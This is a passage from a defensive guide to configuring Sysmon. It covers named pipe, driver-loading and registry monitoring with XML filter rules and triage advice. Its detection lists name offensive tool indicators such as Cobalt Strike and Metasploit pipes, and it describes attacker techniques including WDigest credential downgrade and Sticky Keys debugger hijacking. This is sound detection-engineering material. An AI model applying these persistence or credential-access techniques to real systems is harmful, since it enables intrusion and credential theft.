				  <TargetFilename condition="end with">.appref-ms</TargetFilename>				  <!--Microsoft:ClickOnce application | Credit @ion-storm -->
          <TargetFilename condition="end with">.kirbi</TargetFilename>              <!--Mimikatz or kekeo default kerberos ticket file extention-->
          <TargetFilename condition="end with">.iso</TargetFilename>                <!--often ignored by AV/EDR but opens like a zip file in windows-->
          <TargetFilename condition="end with">.img</TargetFilename>                <!--often ignored by AV/EDR but opens like a zip file in windows-->
          <TargetFilename condition="end with">.hta</TargetFilename>                <!--HTA Scripting-->
          <TargetFilename condition="end with">.exe</TargetFilename>                <!--Executable-->
          <TargetFilename condition="end with">.dll</TargetFilename>                <!--Executable-->
          <TargetFilename condition="end with">.ps1</TargetFilename>				        <!--PowerShell [ More information: http://www.hexacorn.com/blog/2014/08/27/beyond-good-ol-run-key-part-16/ ] -->
	  <TargetFilename condition="end with">.ps2</TargetFilename>                <!--PowerShell [ More information: http://www.hexacorn.com/blog/2014/08/27/beyond-good-ol-run-key-part-16/ ] -->
          <TargetFilename condition="end with">.psm1</TargetFilename>               <!--PowerShell [ More information: http://www.hexacorn.com/blog/2014/08/27/beyond-good-ol-run-key-part-16/ ] -->
          <TargetFilename condition="end with">.bat</TargetFilename>				        <!--Batch scripting-->
	  <TargetFilename condition="end with">.cmd</TargetFilename>				        <!--Batch scripting: Batch scripts can also use the .cmd extension | Credit: @mmazanec -->
			</FileBlockShredding>
		</RuleGroup>
```

Sysmon will not generate any alert on screen for the user once it takes the action. 


The file delete event fields are:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process Guid of the process that overwrote the fileblocks for the file

* **ProcessId**: Process ID used by the OS to identify the process that overwrote the fileblocks for the file.

* **Image**: File path of the process that overwrote the fileblocks for the file

* **TargetFilename**: Name of the file that is being deleted.

* **Hashes**: Full hash of the file with the algorithms in the HashType field.

* **IsExecutable**: If the file has a MZ header saying the file is an executable.

## Named Pipes


Sysmon will log **EventID 17** (PipeCreated) when a named pipe server is created and **EventID 18** (PipeConnected) when a client connects to a named pipe. Named pipe monitoring is a **moderate-volume event type** that requires careful filtering strategy based on your environment. Named pipes are critical for detecting lateral movement, command and control communication, and inter-process communication used by malware.


A named pipe is a named, one-way or duplex pipe for communication between a pipe server and one or more pipe clients. Each named pipe has a unique name that distinguishes it from other named pipes in the system's list of named objects. Pipe names follow the format `\\ServerName\pipe\PipeName` (or `\\.\pipe\PipeName` for local connections).

Attackers extensively use named pipes for:

**Lateral Movement and C2 Communication**: Named pipes enable SMB-based communication between systems. Remote Access Trojans (RATs) and implants like Cobalt Strike, Metasploit, and Empire use named pipes to:
* Create communication channels between compromised systems
* Tunnel commands and data over SMB (port 445)
* Pivot through networks via established trust relationships
* Bypass network firewalls by using allowed SMB traffic

**Inter-Process Communication (IPC)**: Malware uses named pipes to communicate between different processes on the same system:
* Communication with injected code in other processes
* Coordination between malware components
* Data exchange between stagers and payloads

**Well-Known Attack Tool Pipes**: Many offensive security tools use identifiable pipe names that can be detected:
* **Cobalt Strike**: `\MSSE-<number>-server`, `\msagent_<number>`, `\postex_<number>`, `\postex_ssh_<number>`
* **Metasploit**: `\msf-pipe-<number>`, `\msfpipe`
* **PsExec**: `\PSEXESVC`
* **Empire**: Uses customizable pipe names, often defaults like `\Legit-Pipe-Name`

However, experienced attackers often avoid using well-known pipe names to prevent detection and to avoid breaking normal system operations.

**MITRE ATT&CK Mapping**:
* **T1021.002 - Remote Services: SMB/Windows Admin Shares** - Named pipes over SMB
* **T1090 - Proxy** - Named pipe pivoting
* **T1573 - Encrypted Channel** - Named pipes for encrypted C2
* **T1071 - Application Layer Protocol** - Named pipes as C2 channel


Named pipe volume varies significantly by environment:
* Workstations typically generate moderate volume (50-200 events per day)
* Systems with SQL Server, Exchange, or enterprise software generate many legitimate pipes
* Servers with database or messaging software can generate thousands of events per day
* Volume depends heavily on installed applications and their use of inter-process communication

**Two Configuration Approaches:**

**Approach 1 - Exclusion-Based (Recommended for most environments)**: Log all named pipes but exclude known-good system and application pipes. This provides comprehensive visibility while keeping volume manageable. This approach requires ongoing baseline maintenance but offers the most detection value during incident response, as you'll capture novel or custom pipe names used by attackers.

**Approach 2 - Targeted Includes (For high-volume environments)**: Only log known malicious pipe names or pipes from suspicious processes. This minimizes volume but may miss novel attacks. This approach is better served with automated SIEM-based detection logic rather than Sysmon filtering alone.

**The baseline and iterative refinement process should be continuous**, as new applications and updates may introduce new legitimate pipes.


When reviewing named pipe events, prioritize investigation of:

**1. Known Malicious Pipe Names**
* Cobalt Strike indicators: `MSSE-`, `msagent_`, `postex_`, `status_`
* Metasploit indicators: `msf`, `meterpreter`
* PsExec: `\PSEXESVC` (unless you use PsExec legitimately)
* Any pipes matching known offensive tool patterns

**2. Suspicious Pipe Name Patterns**
* Random-looking names (long strings of random characters)
* Misspellings of legitimate pipe names
* Generic names trying to blend in (`\pipe\generic`, `\pipe\default`)
* Pipes with unusual prefixes or suffixes

**3. Pipes Created by Suspicious Processes**
* PowerShell, cmd.exe, or scripting engines creating named pipes
* Processes running from temp directories or user folders
* Unsigned or recently created executables
* Processes with suspicious parent-child relationships

**4. Unusual Pipe Connections (EventID 18)**
* Connections to pipes from unexpected processes
* Cross-process pipe connections that don't match normal application behavior
* Connections shortly after suspicious process creation

**5. Remote Pipe Connections**
* Pipes with ServerName that isn't `.` (local)
* SMB-based pipe connections between systems (check network logs for corresponding SMB traffic)
* Pipe activity correlating with lateral movement indicators

**6. Timing and Correlation**
* Pipe creation shortly after initial compromise indicators
* Multiple pipe events in sequence suggesting C2 setup
* Pipe activity during off-hours
* Correlation with Process Access or Network Connection events


The fields for the Pipe Create Event (EventID 17) are:

* **RuleName**: Name of rule that triggered the event
* **EventType**: `CreatePipe`
* **UtcTime**: Time in UTC when event was created
* **ProcessGuid**: Process GUID of the process that created the pipe
* **ProcessId**: Process ID used by the OS to identify the process that created the pipe
* **PipeName**: Name of the pipe created
* **Image**: File path of the process that created the pipe

The fields for the Pipe Connect Event (EventID 18) are:

* **RuleName**: Name of rule that triggered the event
* **EventType**: `ConnectPipe`
* **UtcTime**: Time in UTC when event was created
* **ProcessGuid**: Process GUID of the process that connected to the pipe
* **ProcessId**: Process ID used by the OS to identify the process that connected to the pipe
* **PipeName**: Name of the pipe connected
* **Image**: File path of the process that connected to the pipe


**Initial Baseline Configuration**: Log all named pipes to understand your environment

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <!-- Log all named pipe events initially -->
            <PipeEvent onmatch="exclude">
            </PipeEvent>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

After collecting baseline data for 1-2 weeks, analyze the unique PipeName values and create exclusions for verified legitimate pipes.

**Exclusion-Based Configuration**: After baselining, exclude known-good pipes

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="Exclude Known Good Named Pipes" groupRelation="or">
            <PipeEvent onmatch="exclude">
                <!-- Windows OS Pipes -->
                <PipeName condition="is">\ntapvsrq</PipeName>
                <PipeName condition="is">\srvsvc</PipeName>
                <PipeName condition="is">\wkssvc</PipeName>
                <PipeName condition="is">\lsass</PipeName>
                <PipeName condition="is">\winreg</PipeName>
                <PipeName condition="is">\spoolss</PipeName>
                <PipeName condition="is">\samr</PipeName>
                <PipeName condition="is">\eventlog</PipeName>
                <PipeName condition="contains">Anonymous Pipe</PipeName>

                <!-- IIS Web Server -->
                <Image condition="is">c:\windows\system32\inetsrv\w3wp.exe</Image>

                <!-- Microsoft SQL Server Pipes -->
                <PipeName condition="is">\SQLLocal\MSSQLSERVER</PipeName>
                <PipeName condition="is">\SQLLocal\INSTANCE01</PipeName>
                <PipeName condition="is">\SQLLocal\SQLEXPRESS</PipeName>
                <PipeName condition="is">\SQLLocal\COMMVAULT</PipeName>
                <PipeName condition="is">\SQLLocal\RTCLOCAL</PipeName>
                <PipeName condition="is">\SQLLocal\RTC</PipeName>
                <PipeName condition="is">\SQLLocal\TMSM</PipeName>

                <!-- Add environment-specific exclusions discovered during baseline -->
            </PipeEvent>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Targeted Include Configuration**: For high-volume environments, only log suspicious patterns

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="Include Suspicious Named Pipes" groupRelation="or">
            <PipeEvent onmatch="include">
                <!-- Cobalt Strike Indicators -->
                <PipeName condition="contains">MSSE-</PipeName>
                <PipeName condition="contains">msagent_</PipeName>
                <PipeName condition="contains">postex_</PipeName>
                <PipeName condition="contains">status_</PipeName>

                <!-- Metasploit Indicators -->
                <PipeName condition="contains">msf</PipeName>
                <PipeName condition="contains">meterpreter</PipeName>

                <!-- PsExec -->
                <PipeName condition="is">\PSEXESVC</PipeName>

                <!-- Suspicious processes creating pipes -->
                <Image condition="end with">\powershell.exe</Image>
                <Image condition="end with">\cmd.exe</Image>
                <Image condition="end with">\cscript.exe</Image>
                <Image condition="end with">\wscript.exe</Image>
                <Image condition="contains">\Temp\</Image>
                <Image condition="contains">\AppData\Local\Temp\</Image>
            </PipeEvent>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```


Sysmon uses a minifilter driver to monitor named pipe creation, similar to how it monitors file events. **If any antivirus or EDR solution with a lower altitude number** (which means higher priority in the driver stack) **triggers on a named pipe and blocks it, Sysmon will not log the event**.

This means some malicious pipe creation attempts may be blocked by security software before Sysmon can observe them. This is generally acceptable, as the pipe was blocked, but it's important to understand this limitation when investigating incidents. Your EDR or antivirus logs may contain pipe blocking events that don't appear in Sysmon.

## Driver Loading


Sysmon will log **EventID 6** for the loading of kernel drivers. Driver loading is a **low-volume, high-value event type** that should typically log all occurrences with minimal filtering. Drivers operate at the kernel level with the highest privileges on a system, making malicious driver loading one of the most dangerous attack techniques.


Kernel drivers have unrestricted access to the operating system and can:
* Bypass all user-mode security controls
* Hide processes, files, and registry keys (rootkits)
* Intercept and modify system calls
* Disable security software
* Access protected memory (credential theft)
* Persist across reboots with highest privileges

Attackers use malicious drivers for:

**Rootkit Installation**: Drivers that hide malware presence by intercepting system APIs and filtering out malicious processes, files, and network connections from being detected.

**Security Tool Bypass**: Drivers like those used by Mimikatz (mimidrv.sys) to query and modify kernel memory to bypass process protections, read credentials from protected processes like LSASS, or disable security callbacks.

**Bring Your Own Vulnerable Driver (BYOVD)**: Attackers exploit known-vulnerable but legitimately signed drivers to gain kernel-level code execution. These vulnerable drivers are catalogued at **https://www.loldrivers.io/**, which maintains a comprehensive list of drivers known to be exploitable. The LOLDrivers project provides a ready-to-use Sysmon configuration for detecting these vulnerable drivers: **https://github.com/magicsword-io/LOLDrivers/tree/main/detections/sysmon**

**Privilege Escalation**: Exploiting vulnerable signed drivers to escalate from user-mode to kernel-mode execution.

**Persistence**: Drivers load early in the boot process, before most security tools, providing attackers with early system control.

**MITRE ATT&CK Mapping**: Driver loading events help detect:
* **T1014 - Rootkit**: Kernel-mode rootkits hiding attacker presence
* **T1068 - Exploitation for Privilege Escalation**: Exploiting vulnerable drivers (BYOVD)
* **T1543.003 - Create or Modify System Process: Windows Service**: Driver-based services
* **T1562 - Impair Defenses**: Drivers that disable security tools
* **T1611 - Escape to Host**: Breaking out of virtualization using drivers


Unlike process creation or file creation, driver loading happens infrequently:
* Drivers load primarily at boot time
* New driver installation is rare (hardware additions, software updates)
* Typical system generates only 10-50 driver load events per day
* Most are well-known, signed Windows or hardware vendor drivers

This low volume makes driver loading ideal for a **log-all approach**. The small event count allows you to review all driver loads and progressively exclude known-good drivers without overwhelming your SIEM.


The recommended approach for driver loading:

1. **Start by logging everything** - No initial exclusions
2. **Baseline for 1-2 weeks** - Collect all driver loads in your environment
3. **Identify legitimate drivers** - Review unique driver signatures and validate they are expected
4. **Integrate LOLDrivers detection** - Add the LOLDrivers Sysmon configuration to detect known-vulnerable drivers
5. **Progressively exclude** - Add exclusions for verified, signed drivers from trusted vendors
6. **Continuous monitoring** - Review any new drivers that appear

**Critical**: Always filter on **both Signature AND SignatureStatus**. Many attacks use stolen code-signing certificates that are later revoked. Checking that SignatureStatus is "Valid" helps detect:
* Drivers signed with stolen certificates before revocation
* Drivers signed with certificates that have since been revoked
* Legitimate vendors forced to revoke certificates due to abuse


Enable certificate revocation checking in your Sysmon configuration using `<CheckRevocation/>`. This tells Sysmon to verify that signing certificates have not been revoked. While this adds a small performance overhead (network lookup to check revocation status), it provides critical security value for detecting abuse of stolen certificates.


The LOLDrivers project (https://www.loldrivers.io/) is an invaluable resource for detecting BYOVD attacks. The project maintains:
* A curated list of vulnerable drivers known to be exploited by attackers
* Driver hashes, signatures, and metadata
* A ready-to-use Sysmon configuration that detects loading of these vulnerable drivers

**To integrate LOLDrivers detection:**
1. Download the Sysmon configuration from: https://github.com/magicsword-io/LOLDrivers/tree/main/detections/sysmon
2. Merge it with your existing driver loading configuration
3. The configuration uses driver hashes to detect known-vulnerable drivers regardless of how they are signed
4. Regularly update the configuration as new vulnerable drivers are discovered

This is particularly valuable because vulnerable but signed drivers are difficult to detect through signature validation alone - they are legitimately signed by vendors but contain exploitable vulnerabilities.




Initial rule for collecting DriverLoad events

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <!--Filter none driver default rule events-->
            <ProcessCreate onmatch = "include">
            </ProcessCreate>
            <ProcessTerminate onmatch = "include">
            </ProcessTerminate>
            <FileCreate onmatch = "include">
            </FileCreate>
            <FileCreateTime onmatch = "include">
            </FileCreateTime>

            <!--Include all driver events-->
            <DriverLoad onmatch="exclude">
            </DriverLoad>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

Collect unique Signature field values for building filters

The event fields are:

* **RuleName**: Name of rule that triggered the event.

* **UtcTime**: Time in UTC when event was created

* **ImageLoaded**: File path of the driver loaded

* **Hashes**: Hashes captured by Sysmon driver

* **Signed**: Is the driver loaded signed

* **Signature**: Signer name of the driver

* **SignatureStatus**: Status of the signature


When reviewing driver loading events, prioritize:

**1. Unsigned Drivers**
* Any driver that is not signed should be investigated immediately
* Legitimate drivers from major vendors are always signed
* Unsigned drivers are strong indicators of malicious activity

**2. Drivers with Invalid Signatures**
* SignatureStatus not equal to "Valid"
* May indicate stolen/revoked certificates or tampered drivers
* Cross-reference with LOLDrivers database

**3. Drivers from Unusual Vendors**
* Drivers signed by unknown or suspicious vendors
* Particularly suspicious if loaded on servers or systems that don't match the hardware
* Example: Gaming peripheral drivers on a server

**4. Known-Vulnerable Drivers**
* Drivers matching hashes in the LOLDrivers database
* Even if properly signed, these are exploitable
* Common in BYOVD attacks

**5. Drivers Loaded from Unusual Locations**
* Drivers outside of `C:\Windows\System32\drivers\`
* Drivers from temp directories or user folders
* Drivers on removable media

**6. Mimikatz and Tool-Specific Drivers**
* mimidrv.sys (Mimikatz driver)
* Other known attack tool drivers
* Monitor for these by name and hash

**7. Recent Driver Installations**
* Any new driver that appears after your baseline period
* Investigate the timing - did it coincide with other suspicious activity?
* Validate business justification for new driver


After baselining, exclude verified signed drivers from trusted vendors (example for a VDI environment):

```xml
<Sysmon schemaversion="4.22">
    <CheckRevocation/>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <DriverLoad onmatch="exclude">
                <!--Exclude signed Microsoft drivers-->
                <Rule groupRelation="and">
                    <Signature condition="contains">Microsoft</Signature>
                    <SignatureStatus condition="is">Valid</SignatureStatus>
                </Rule>
                <!--Exclude signed Inter drivers-->
                <Rule groupRelation="and">
                    <Signature condition="begin with">Intel </Signature>
                    <SignatureStatus condition="is">Valid</SignatureStatus>
                </Rule>
                <!--Exclude signed VMware drivers-->
                <Rule groupRelation="and">
                    <Signature condition="begin with">VMware</Signature>
                    <SignatureStatus condition="is">Valid</SignatureStatus>
                </Rule>
            </DriverLoad>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

## Registry Actions


Sysmon has the capability to monitor for three major actions against the Windows Registry:

* **EventID 12** - Registry object (key) added or deleted

* **EventID 13** - Registry value set

* **EventID 14** - Registry object (key) renamed

The Windows Registry has been a central target for attackers since its introduction in Windows NT 4.0 and Windows 95. The registry provides attackers with capabilities for persistence, privilege escalation, defense evasion, discovery, and configuration manipulation. Understanding registry monitoring is critical for detection engineering, but it must be approached carefully due to extreme volume challenges.


Registry monitoring provides visibility into some of the most common and persistent attack techniques:

**Persistence Mechanisms**: Attackers use registry keys to ensure their malware survives reboots. Common persistence locations include:
* Run and RunOnce keys for automatic program execution at startup
* Services keys for creating malicious Windows services
* Winlogon keys for hijacking the logon process
* Scheduled task configurations stored in registry
* AppInit_DLLs and AppCertDlls for DLL injection on process start

**Privilege Escalation**: Registry modifications can elevate privileges or bypass security controls:
* UAC bypass techniques often modify specific registry values
* Service configuration changes to run malware with SYSTEM privileges
* Accessibility feature hijacking (Sticky Keys, etc.)

**Defense Evasion**: Attackers modify registry to disable security controls:
* Windows Defender settings and exclusions
* Windows Firewall configuration
* Safe boot settings
* Audit policy modifications to reduce logging

**Discovery**: Attackers query registry for reconnaissance:
* Installed software enumeration
* Network configuration discovery
* Security product identification
* System configuration gathering

**Credential Access**: Some registry locations contain or control credential storage:
* LSA secrets configuration
* Credential manager settings
* WDigest authentication settings (enabling plaintext credential storage)

**MITRE ATT&CK Mapping**: Registry monitoring helps detect numerous techniques:
* **T1547 - Boot or Logon Autostart Execution** - Run keys, services, Winlogon modifications
* **T1112 - Modify Registry** - General registry tampering
* **T1548 - Abuse Elevation Control Mechanism** - UAC bypass techniques
* **T1562 - Impair Defenses** - Disabling security tools via registry
* **T1012 - Query Registry** - Reconnaissance through registry queries
* **T1543.003 - Create or Modify System Process: Windows Service** - Service manipulation
* **T1546 - Event Triggered Execution** - Various registry-based execution triggers
* **T1574 - Hijack Execution Flow** - DLL hijacking, path interception via registry


Registry events are among the highest-volume event types Sysmon generates. The Windows Registry is accessed thousands of times per minute during normal system operation:
* Windows components constantly read and write registry values
* Every application startup involves numerous registry accesses
* Background services continuously update configuration in registry
* User profile changes modify HKCU extensively
* Group Policy processing writes to many registry locations

**You CANNOT log all registry activity.** Attempting to do so will:
* Generate tens of thousands to millions of events per day per system
* Severely impact system performance (CPU and I/O)
* Overwhelm your SIEM infrastructure
* Create so much noise that real detections are impossible to find
* Potentially cause Sysmon to consume excessive system resources


Registry monitoring requires the **most aggressive targeted include approach** of any Sysmon event type. You must be extremely selective about which registry keys you monitor. Focus exclusively on high-value keys known to be abused by attackers.

**Best Practices:**
* Only monitor specific registry paths that indicate malicious activity
* Avoid broad patterns that match many keys
* Prefer "end with" or exact matches over "contains" when possible
* Never attempt to monitor entire registry hives or subtrees
* Test any new registry filters in a lab first to assess volume
* Start with a minimal configuration and expand carefully

Sysmon uses abbreviated versions of Registry root key names, with the following mappings:


|**Key name**                                  |**Abbreviation**                |
|---------------------------------------------|---------------------------------
| HKEY\_LOCAL\_MACHINE                          |HKLM|
| HKEY\_USERS                                   |HKU|
| HKEY\_LOCAL\_MACHINE\\System\\ControlSet00x   |HKLM\\System\\CurrentControlSet|
| HKEY\_LOCAL\_MACHINE\\Classes                 |HKCR|

Registry Add/Delete Fields:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **EventType**: CreateKey or DeleteKey

* **ProcessGuid**: Process GUID of the process that created or deleted a registry key

* **ProcessId**: Process ID used by the OS to identify the process that created or deleted a registry key

* **Image**: File path of the process that created or deleted a registry key

* **TargetObject**: Complete path of the registry key


Registry Set Value Fields:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **EventType**: SetValue

* **ProcessGuid**: Process GUID of the process that modified a registry value

* **ProcessId**: Process ID used by the OS to identify the process that modified a registry value

* **Image**: File path of the process that modified a registry value

* **TargetObject**: Complete path of the modified registry key

* **Details**: Details added to the registry key


Registry Rename Fields:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **EventType**: RenameKey

* **ProcessGuid**: Process GUID of the process that renamed a registry value and key

* **ProcessId**: Process ID used by the OS to identify the process that renamed a registry value and key

* **Image**: File path of the process that renamed a registry value and key

* **TargetObject**: Complete path of the renamed registry key

* **NewName**: New name of the registry key


This event type is better used in a targeted manner given the size of the registry and how it is used by a multitude of processes on a daily basis in Windows.

In registry events, the value name is appended to the full key path with a \"\\\" delimiter.

Default key values are named \"\\(Default)\"

When filtering for keys or values in HKCU, use **contains** or **ends with** when filtering against **TargetObject** since the SID of the user is appended after the Hive name.


Since the value name is appended when specifying a registry path in **TargetObject**, where we also want to catch modification of values under the key, the **contains** operator is better suited than **ends with**. For value events, the **Detail** element of the event will contain the type of value.

Sysmon does not log the actual value being set nor a previous or new one being modified.


Focus your registry monitoring on these high-value locations known to be frequently abused:

**Persistence - Autorun Locations:**
* `\CurrentVersion\Run` and `\CurrentVersion\RunOnce` - Most common persistence mechanism
* `\CurrentVersion\Explorer\User Shell Folders\Startup` - Startup folder path hijacking
* `\Windows NT\CurrentVersion\Winlogon\` (Userinit, Shell, Notify) - Logon process hijacking
* `\CurrentControlSet\Control\Session Manager\BootExecute` - Pre-boot execution

**Service Manipulation:**
* `\CurrentControlSet\Services\*\ImagePath` - Service executable path
* `\CurrentControlSet\Services\*\ServiceDll` - Service DLL specification
* `\CurrentControlSet\Services\*\Start` - Service start mode changes

**DLL Loading and Hijacking:**
* `\Windows NT\CurrentVersion\Windows\AppInit_DLLs` - DLLs loaded into every process
* `\System\CurrentControlSet\Control\Session Manager\AppCertDlls` - DLL injection mechanism
* `\Explorer\FileExts` and file association shell commands - Execution through file associations

**Defense Evasion - Security Tool Tampering:**
* `\SOFTWARE\Microsoft\Windows Defender\` - Windows Defender settings
* `\SOFTWARE\Policies\Microsoft\Windows Defender\` - Defender policy modifications
* `\SYSTEM\CurrentControlSet\Services\WinDefend\Start` - Defender service disable
* `\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` - UAC disable

**Credential Access:**
* `\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential` - Enable WDigest plaintext passwords
* `\SYSTEM\CurrentControlSet\Control\Lsa\` - LSA configuration

**Accessibility Feature Hijacking (Sticky Keys, etc.):**
* `\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe` - Sticky Keys debugger
* `\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe` - Utility Manager debugger
* Similar paths for osk.exe, narrator.exe, magnify.exe, displayswitch.exe


**Example 1: Comprehensive Persistence Monitoring**

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
 <RuleGroup name="" groupRelation="or">
      <RegistryEvent onmatch="include">
        <TargetObject name="technique_id=T1060,technique_name=Registry Run Keys / Start Folder" condition="contains">\CurrentVersion\Run</TargetObject><!--Microsoft:Windows: Run keys, incld RunOnce, RunOnceEx, RunServices, RunServicesOnce [Also covers terminal server] -->
        <TargetObject condition="contains">\Group Policy\Scripts</TargetObject> <!--Microsoft:Windows: Group policy scripts-->
        <TargetObject name="technique_id=T1037,technique_name=Logon Scripts" condition="contains">\Windows\System\Scripts</TargetObject> <!--Microsoft:Windows: Logon, Loggoff, Shutdown-->
        <TargetObject name="technique_id=T1060,technique_name=Registry Run Keys / Start Folder" condition="contains">\Policies\Explorer\Run</TargetObject><!--Microsoft:Windows -->
        <TargetObject condition="end with">\ServiceDll</TargetObject> <!--Microsoft:Windows: Points to a service's DLL [ https://blog.cylance.com/windows-registry-persistence-part-1-introduction-attack-phases-and-windows-services ] -->
        <TargetObject condition="end with">\ImagePath</TargetObject> <!--Microsoft:Windows: Points to a service's EXE [ https://github.com/crypsisgroup/Splunkmon/blob/master/sysmon.cfg ] -->
        <TargetObject condition="end with">\Start</TargetObject> <!--Microsoft:Windows: Services start mode changes (Disabled, Automatically, Manual)-->
        <TargetObject name="technique_id=T1004,technique_name=Winlogon Helper DLL" condition="begin with">HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify</TargetObject><!--Microsoft:Windows: Autorun location [ https://www.cylance.com/windows-registry-persistence-part-2-the-run-keys-and-search-order ] -->
        <TargetObject name="technique_id=T1004,technique_name=Winlogon Helper DLL" condition="begin with">HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit</TargetObject> <!--Microsoft:Windows: Autorun location [ https://www.cylance.com/windows-registry-persistence-part-2-the-run-keys-and-search-order ] -->
        <TargetObject name="technique_id=T1004,technique_name=Winlogon Helper DLL" condition="begin with">HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell</TargetObject>
        <TargetObject condition="begin with">HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Drivers32</TargetObject> <!--Microsoft:Windows: Legacy driver loading | Credit @ion-storm -->
        <TargetObject name="technique_id=T1060,technique_name=Registry Run Keys / Start Folder" condition="begin with">HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\BootExecute</TargetObject> <!--Microsoft:Windows: Autorun | Credit @ion-storm | [ https://www.cylance.com/windows-registry-persistence-part-2-the-run-keys-and-search-order ] -->
        <TargetObject name="technique_id=T1042,technique_name=Change Default File Association" condition="contains">\Explorer\FileExts</TargetObject><!--Microsoft:Windows: Changes to file extension mapping-->
        <TargetObject condition="contains">\shell\install\command</TargetObject> <!--Microsoft:Windows: Sensitive subkey under file associations and CLSID that map to launch command-->
        <TargetObject condition="contains">\shell\open\command</TargetObject> <!--Microsoft:Windows: Sensitive subkey under file associations and CLSID that map to launch command-->
        <TargetObject condition="contains">\shell\open\ddeexec</TargetObject> <!--Microsoft:Windows: Sensitive subkey under file associations and CLSID that map to launch command-->
        <TargetObject name="technique_id=T1060,technique_name=Registry Run Keys / Start Folder" condition="contains">Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders\Startup</TargetObject>
    </RegistryEvent>
</RuleGroup>
</EventFiltering>
</Sysmon>
```

**Example 2: Defense Evasion Detection**

Monitor for attempts to disable security controls:

```xml
<RegistryEvent onmatch="include">
  <!-- Windows Defender Tampering -->
  <TargetObject name="DefenderDisable" condition="contains">\Microsoft\Windows Defender\DisableAntiSpyware</TargetObject>
  <TargetObject condition="contains">\Microsoft\Windows Defender\Exclusions\</TargetObject>
  <TargetObject condition="contains">\Microsoft\Windows Defender\Real-Time Protection\</TargetObject>

  <!-- UAC Bypass -->
  <TargetObject name="UACDisable" condition="contains">\Policies\System\EnableLUA</TargetObject>
  <TargetObject condition="contains">\Policies\System\ConsentPromptBehaviorAdmin</TargetObject>

  <!-- Firewall Disable -->
  <TargetObject condition="contains">\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\</TargetObject>
</RegistryEvent>
```

**Example 3: Credential Access Monitoring**

```xml
<RegistryEvent onmatch="include">
  <!-- WDigest Plaintext Password Enable -->
  <TargetObject name="WDigestDowngrade" condition="end with">\WDigest\UseLogonCredential</TargetObject>

  <!-- LSA Configuration Changes -->
  <TargetObject condition="contains">\Control\Lsa\DisableRestrictedAdmin</TargetObject>
  <TargetObject condition="contains">\Control\Lsa\LmCompatibilityLevel</TargetObject>
</RegistryEvent>
```

**Example 4: Accessibility Feature Hijacking (Sticky Keys)**

```xml
<RegistryEvent onmatch="include">
  <!-- Image File Execution Options - Debugger Hijacking -->
  <TargetObject name="StickyKeysHijack" condition="contains">\Image File Execution Options\sethc.exe</TargetObject>
  <TargetObject name="UtilManHijack" condition="contains">\Image File Execution Options\utilman.exe</TargetObject>
  <TargetObject condition="contains">\Image File Execution Options\osk.exe</TargetObject>
  <TargetObject condition="contains">\Image File Execution Options\narrator.exe</TargetObject>
  <TargetObject condition="contains">\Image File Execution Options\magnify.exe</TargetObject>
</RegistryEvent>
```


When reviewing registry events, prioritize these patterns:

**1. Run Key Modifications**
* New or modified entries in Run/RunOnce keys, especially in HKLM (affects all users)
* Unusual paths (temp directories, ProgramData, user folders)
* Encoded or obfuscated command lines
* Unsigned executables being added to autorun

**2. Service Creation or Modification**
* New services created outside of normal software installation
* Existing service ImagePath or ServiceDll modifications
* Service start type changes from Disabled to Automatic
* Services pointing to unusual file locations

**3. Security Tool Tampering**
* Any modifications to Windows Defender registry keys
* Defender exclusion additions
* Firewall rule changes or firewall disable
* UAC setting modifications

**4. Accessibility Feature Abuse**
* Debugger registry key creation for sethc.exe, utilman.exe, or other accessibility executables
* This technique allows attackers to get SYSTEM shell at login screen by pressing Shift 5 times

**5. File Association Hijacking**
* Changes to shell\open\command or shell\open\ddeexec for common file types
* Can cause malicious code execution when users open files

**6. WDigest Credential Downgrade**
* UseLogonCredential set to 1 (enables storing plaintext passwords in memory for older protocols)
* Common post-exploitation technique to facilitate credential dumping

**7. Unusual Processes Modifying Registry**
* Scripting engines (powershell.exe, cmd.exe, wscript.exe) modifying persistence keys
* Processes running from temp directories making registry changes
* Non-administrative tools modifying HKLM


Monitoring HKEY_CURRENT_USER (HKCU) is particularly challenging because:
* Each user has their own HKCU hive identified by their SID
* The actual registry path includes the SID: `HKEY_USERS\S-1-5-21-xxx-xxx-xxx-xxxx\Software\...`
* Sysmon translates this to HKU\{SID}\...

**When filtering HKCU keys:**
* Use **contains** instead of **begins with** or **is** because the SID varies per user
* Example: `<TargetObject condition="contains">\CurrentVersion\Run</TargetObject>` will match both HKLM and HKCU Run keys

**HKCU Monitoring Considerations:**
* HKCU persistence affects only a single user but can still be valuable for detection
* HKCU is modified very frequently by normal user activity
* Consider only monitoring specific high-value HKCU keys rather than broad patterns
* HKLM persistence is generally higher priority (affects all users, often requires elevation)


Registry monitoring will generate some benign events even with targeted includes:

**Software Updates and Installations**
* Legitimate software modifying Run keys during installation
* Windows updates changing service configurations
